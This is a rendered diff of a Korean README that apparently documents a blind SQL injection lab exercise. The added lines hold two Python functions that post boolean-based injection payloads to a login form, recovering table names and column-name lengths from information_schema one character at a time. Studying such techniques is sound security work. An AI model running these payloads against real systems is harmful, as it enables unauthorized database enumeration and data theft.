

Before and after one commit to MLTree2/HK, a Markdown page: webH/1. SQL_Injection/README.md, the part around one of its changes. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/webH/1. SQL_Injection/README.md
+++ b/webH/1. SQL_Injection/README.md
@@ -44,3 +104,56 @@ Blind_SQL_Injection 이란 일반적인 SQL_Injection과 비슷하게 취약점
+[fun4 결과]
+
+결과로는 5글자, 5글자로 총 2개의 결과가 나왔습니다.
+
+**4. 각 테이블의 이름 찾기**
+```python
+def fun_5(dbname,table_len):
+    print('processing Fun_5...')
+    res=[]
+    for num_1 in range(len(table_len)):
+        col=[]
+        for num_2 in range(table_len[num_1]):
+            num_3 = 65
+            while True:
+                SQLINJq = f"' or 1=1 and ascii(substring((select table_name from information_schema.tables where  table_schema='{dbname}' limit {num_1},1),{num_2+1},1)) = {num_3}#"
+                req = requests.post(url,data=f"id={SQLINJq}&pw=pw&login=Login",headers={'Content-Type': 'application/x-www-form-urlencoded'})
+                if  "invalid" not in req.text:
+                    #print(f"success with {num_3}")
+                    col.append(chr(num_3))
+                    break
+                num_3 +=1
+        res.append(''.join(col))
+    print(res)
+    return res
+ ```
+ 2번과 유사한 방식으로 각 테이블의 이름을 찾을 수 있습니다. 입력값의 table_len 값은 3번의 출력과 동일한 [5, 5]로 입력합니다.
+
+ [fun 5]
+
+ 테이블의 이름은 각각 board, usesrs 임을 알 수 있습니다.
+
+ **5. 각 테이블별 컬름이름 길이 찾기**
+ ```python
+ def fun_6(table_name):
+    print('processing Fun_6...')
+    res = []
+    for name in table_name:
+        col = []
+        num_1, num_2 = 0, 0
+        while num_2 <= MAX_LENGTH:
+            SQLINJq = f"' or 1=1 and length((select column_name from information_schema.columns where table_name='{name}' limit {num_1},1))={num_2}#"
+            req = requests.post(url, data=f"id={SQLINJq}&pw=pw&login=Login", headers={'Content-Type': 'application/x-www-form-urlencoded'})
+            if 'invalid' not in req.text:
+                #print(f"success with {num_2}")
+                col.append(num_2)
+                num_1, num_2 = num_1+1, 0
+            else:
+                num_2 += 1
+        res.append(col)
+    print(res)
+    return res
+ ```
+ㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡㅡ 여기서 부터 수정
 
 ## 게시판 화면
 
````
Also changed, not shown: other parts of webH/1. SQL_Injection/README.md (+61 -1 lines).
